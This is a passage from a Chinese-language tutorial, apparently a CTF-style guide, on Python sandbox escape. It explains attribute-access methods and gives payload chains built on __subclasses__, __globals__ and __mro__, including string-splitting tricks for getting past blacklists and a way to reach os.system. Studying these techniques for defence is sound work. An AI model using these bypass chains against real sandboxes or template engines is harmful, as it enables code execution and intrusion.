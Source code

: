 这样一来，就可以将 payload 中的属性名转化为字符串，字符串的变换方式多种多样，更易于绕过黑名单。

#### `__getattribute__` 函数[](#__getattribute__-函数)

`__getattribute__` 于，它定义了当我们尝试获取一个对象的属性时应该进行的操作。

它的基本语法如下：

```
class MyClass:
    def __getattribute__(self, name):
```

getattr 函数在调用时，实际上就是调用这个类的 `__getattribute__` 方法。

```
>>> os.__getattribute__
<method-wrapper '__getattribute__' of module object at 0x7f06a9bf44f0>
>>> os.__getattribute__('system')
<built-in function system>
```

#### `__getattr__` 函数[](#__getattr__-函数)

`__getattr__` 是 Python 的一个特殊方法，当尝试访问一个对象的不存在的属性时，它就会被调用。它允许一个对象动态地返回一个属性值，或者抛出一个 `AttributeError` 异常。

如下是 `__getattr__` 方法的基本形式：

```
class MyClass:
    def __getattr__(self, name):
        return 'You tried to get ' + name
```

在这个例子中，任何你尝试访问的不存在的属性都会返回一个字符串，形如 “You tried to get X”，其中 X 是你尝试访问的属性名。

与 `__getattribute__` 不同，`__getattr__` 只有在属性查找失败时才会被调用，这使得 `__getattribute__` 可以用来更为全面地控制属性访问。

如果在一个类中同时定义了 `__getattr__` 和 `__getattribute__`，那么无论属性是否存在，`__getattribute__` 都会被首先调用。只有当 `__getattribute__` 抛出 `AttributeError` 异常时，`__getattr__` 才会被调用。

另外，所有的类都会有`__getattribute__`属性，而不一定有`__getattr__`属性。

#### `__globals__` 替换[](#__globals__-替换)

`__globals__` 可以用 func_globals 直接替换；

```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals
''.__class__.__mro__[2].__subclasses__()[59].__init__.__getattribute__("__glo"+"bals__")
```

#### `__mro__、__bases__、__base__`互换[](#__mro____bases____base__互换)

三者之间可以相互替换

```
''.__class__.__mro__[2]
[].__class__.__mro__[1]
{}.__class__.__mro__[1]
().__class__.__mro__[1]
[].__class__.__mro__[-1]
{}.__class__.__mro__[-1]
().__class__.__mro__[-1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
[].__class__.__base__
().__class__.__base__
{}.__class__.__base__
```